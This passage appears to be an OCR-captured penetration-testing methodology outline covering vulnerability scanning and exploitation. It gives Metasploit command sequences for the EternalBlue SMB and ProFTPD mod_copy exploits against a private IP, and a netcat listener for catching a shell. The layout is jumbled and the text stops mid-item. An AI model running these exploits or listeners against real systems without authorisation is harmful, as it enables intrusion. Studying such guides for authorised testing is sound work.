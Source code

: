     Command Example:

    bash

            nikto -h http://example.com

        OWASP ZAP: Another web application security testing tool.

Perform in-depth analysis of critical vulnerabilities.
Exploit vulnerabilities in a controlled environment.

    Tools:
        Metasploit: Exploitation framework.
            Command Example:

            bash

                    msfconsole
                    use exploit/windows/smb/ms17_010_eternalblue
                    set RHOSTS 192.168.1.10
                    run

                Exploit-DB: Database of exploits and proof-of-concepts.
                Custom Scripts: Create or modify scripts for specific needs.

4. Exploitation Phase
4.1. Gaining Access

    Objective: Exploit identified vulnerabilities to gain access.
    Tasks:
        Develop or customize exploits for identified vulnerabilities.
            Tools:
                Exploit-DB: Reference for existing exploits.
                Metasploit: Integrated exploitation environment.
                    Command Example:

                    bash

            msfconsole
            use exploit/unix/ftp/proftpd_modcopy_exec
            set RHOST 192.168.1.10
            set RPORT 21
            run

        Custom Scripts: Python, Bash, PowerShell.

Use tools like Metasploit to exploit vulnerabilities.
Establish a foothold on the compromised system.

    Tools:
        Netcat: Simple networking tool.
            Command Example:

            bash

    nc -lvp 4444

SSH: Secure Shell for remote access.

    Command Example:
